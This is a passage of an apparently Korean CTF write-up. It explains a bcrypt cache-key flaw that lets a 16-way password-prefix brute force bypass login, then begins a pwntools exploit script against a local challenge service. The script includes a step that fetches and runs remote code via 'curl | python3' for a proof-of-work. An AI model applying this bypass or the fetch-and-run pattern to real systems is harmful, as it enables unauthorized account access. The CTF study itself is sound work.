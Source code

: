 즉, password의 **선두 1바이트(2 hex digit)만 유효하고**, 나머지는 무시됩니다. 이로 인해 bcrypt 입력 값은 password 전체가 아닌 **첫 1바이트(8비트)**만 반영되며, 그 결과 캐시 키 생성 시 password가 사실상 **4비트만 brute-force 하면** 인증 우회가 가능해집니다.

이를 악용하면,

- 해당 username에 대해 password prefix를 16가지 경우의 수로 브루트포스하고,
- 성공 시 로그인 및 메모(memo) 데이터 접근이 가능하게 됩니다.

##### ex.py
```python
from string import hexdigits

import pwn

pwn.context.log_level = "DEBUG"
DEBUG = False
if DEBUG:
    tn = pwn.process(["python3.10", "../prob/for_organizer/chall.py"])
else:
    tn = pwn.remote("localhost", 43625)

    def PoW():
        import subprocess

        tn.recvuntil(b"python3 <(curl -sSL https://goo.gle/kctf-pow) solve ")
        token = tn.recvline(keepends=False).decode()
        pwn.log.info(f"PoW token = {token}")
        result = subprocess.run(
            f'bash -c "python3 <(curl -sSL https://goo.gle/kctf-pow) solve {token}"',
            shell=True,
            capture_output=True,
        ).stdout.strip()
        pwn.log.info(f"PoW solution = {result.decode()}")
        tn.sendlineafter(b"Solution? ", result)
        validation = tn.recvline(keepends=False).decode()
        pwn.log.info(f"PoW {validation = }")

    PoW()


def login(username, password):
    tn.recvuntil(b"menu> \n")
    tn.sendline(b"login")
    tn.sendline(username)
    tn.sendline(password)
    return b"Invalid" not in tn.recvline(keepends=False)


usernames = set()
while True:
    payload = tn.recvline()
    if b"@" in payload:
        usernames.add(payload.split()[1].decode())
    else:
        tn.unrecv(b"menu> \n")
        break

max_len_username = ""
for username in usernames:
    if len(max_len_username) < len(username):
        max_len_username = username

pwn.log.info(f"{max_len_username = }")

target_password = None
```